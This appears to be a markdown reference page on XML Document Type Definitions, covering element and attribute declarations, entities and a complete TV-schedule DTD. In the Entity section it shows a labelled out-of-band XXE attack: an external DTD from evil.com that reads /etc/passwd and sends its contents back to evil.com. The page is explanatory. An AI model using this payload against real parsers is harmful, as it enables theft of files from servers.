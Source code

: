 # XML DTD

* Stands for **Document Type Definition**
* Defines the structure that the xml document should have
* Specifies the DTD inside the first node \(beside the description\), in a `<!DOCTYPE>` \(without a closing `/` \)
* You can either :
  * Write it directly inside the document `<!DOCTYPE root_name [...]`
  * Include an external file `<!DOCTYPE root_name SYSTEM "file">`

## Element

```markup
<!ELEMENT element-name EMPTY>
<!ELEMENT element-name ANY>
<!ELEMENT element-name (#PCDATA)>
<!ELEMENT element-name (child1)>
<!ELEMENT element-name (child1, child2, ...)>
```

* `#PCDATA` \(_Parsed Character Data_\) __are interpreted by the parser while __ `#CDATA` \(_Character Data_\) aren't
* In the XML document, all children must be present and in the same order as in the DTD
* Some symbols add restrictions :

```markup
<!ELEMENT note (msg)> <!-- Only 1 child named msg -->
<!ELEMENT note (msg+)> <!-- 1 or multiple children named msg -->
<!ELEMENT element-name (msg*)> <!-- 0 or more children named msg -->
<!ELEMENT element-name (msg?)> <!-- 0 or 1 child named msg -->

<!-- to, from & header mandatory -->
<!-- either msg or body -->
<!ELEMENT note (to,from,header,(msg|body))> 
```

## Attributes

```markup
<!ATTLIST element_name attribute_name attribute_type attribute_value>
```

| Type | Definition |
| :--- | :--- |
| `CDATA` | Character data |
| `(val1|val2|..)` | One from the enumerated list |
| `(val1|val2|..) "val1"` | One from the enumerated list, defaulting to the specified one |
| `ID` | Unique id |
| `IDREF` | Id of another element |
| `IDREFS` | List of other ids |
| `NMTOKEN` | Valid XML name |
| `NMTOKENS` | List of valid XML names |
| `ENTITY` | Entity |
| `ENTITIES` | List of entities |
| `NOTATION` | Name of a notation |
| `xml:` | Predefined xml value |

| Value | Definition |
| :--- | :--- |
| `value` | The default value of the attribute |
| `#REQUIRED` | The attribute is required |
| `#IMPLIED` | The attribute is optional |
| `#FIXED value` | The attribute value is fixed |

## Entity

* They're variables that takes their value either from :
  * A given constant
  * A file, local or external

```markup
<!DOCTYPE test [
    <!ENTITY entity_name1 "entity-value">
    <!ENTITY entity_name2 SYSTEM "URI/URL">
]>
<test>&entity_name1;</test>
```

* Parameter entity are entities that can be directly referenced in the DTD
  * If they're external, they can reference another entity
  * This is an example of an attack :

```markup
<!-- test.xml-->
<?xml version="1.0" encoding="UTF-8 ?>
<!DOCTYPE test SYSTEM "http://evil.com/external.dtd">
<test>&send;</test>

<!-- external.dtd -->
    <!ENTITY % file_content SYSTEM "/etc/passwd">
    <!ENTITY % wrapper "<!ENTITY send 'http://evil.com/?%file_content;'>">
    %wrapper;
```

## Complete example

```markup
<!DOCTYPE TVSCHEDULE [

<!ELEMENT TVSCHEDULE (CHANNEL+)>
<!ELEMENT CHANNEL (BANNER,DAY+)>
<!ELEMENT BANNER (#PCDATA)>
<!ELEMENT DAY (DATE,(HOLIDAY|PROGRAMSLOT+)+)>
<!ELEMENT HOLIDAY (#PCDATA)>
<!ELEMENT DATE (#PCDATA)>
<!ELEMENT PROGRAMSLOT (TIME,TITLE,DESCRIPTION?)>
<!ELEMENT TIME (#PCDATA)>
<!ELEMENT TITLE (#PCDATA)> 
<!ELEMENT DESCRIPTION (#PCDATA)>

<!ATTLIST TVSCHEDULE NAME CDATA #REQUIRED>
<!ATTLIST CHANNEL CHAN CDATA #REQUIRED>
<!ATTLIST PROGRAMSLOT VTR CDATA #IMPLIED>
<!ATTLIST TITLE RATING CDATA #IMPLIED>
<!ATTLIST TITLE LANGUAGE CDATA #IMPLIED>
]>
```

